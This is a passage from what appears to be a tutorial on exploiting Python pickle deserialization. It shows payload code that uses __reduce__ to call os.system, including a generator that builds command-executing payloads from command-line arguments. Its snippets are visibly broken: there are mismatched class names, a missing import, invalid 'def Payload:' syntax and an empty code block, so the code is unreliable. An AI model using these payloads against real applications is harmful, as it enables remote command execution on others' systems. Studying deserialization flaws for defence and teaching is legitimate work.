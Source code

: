 ```python
```

As you can see, pickle `load()` function is called without any prior check on the file content, allowing an attacker to pass an arbitrary binary payload to the application.

How can we exploit it, then? In Python, we don't actually have any tool like ysoserial, and we don't have a clear definition of POP gadget as it was for the previous languages we encountered so far, but in this context, we actually don't need them at all.

Indeed, for pickle, _pickle and cPickle, we can craft a payload using a simple piece of code, like the following:

```python
import _pickle

class Payload(object):
    def __reduce__(self):
        return (os.system, ('whoami',))

def serialize_exploit():
    shellcode = _pickle.dumps(Exploit())
    return shellcode

```

Changing the return function, it would be possible to generate the payload needed to execute different commands. However, it is more than possible to create something way more general than this, using various techniques, the first we'll see is known as dynamic class generation, code below:

```python
import os
import _pickle
import sys

def Payload:
    pass

    def __reduce__(self):
        pass

def _patch(bytestream):
    byte_array = bytearray(bytestream)
    byte_array[-4] = int("52", 16)
    return bytes(byte_array)

def generate_class(name=None, methods=None):
    if not name:
        return None
    elif not methods:
        return None
    else:
        return type(name, (object,), methods)()

def serialize_class(commands):
    if not commands:
        print(f"[-] No command provided")
    else:
        methods = {
            "__reduce__": lambda self: (os.system, (commands,))
        }
        cls = generate_class("Payload", methods)
        return cls.__reduce__()

command = " ".join(sys.argv[1:])
print(f"[+] Generating serialized object for:")
print(f"    {command}")
```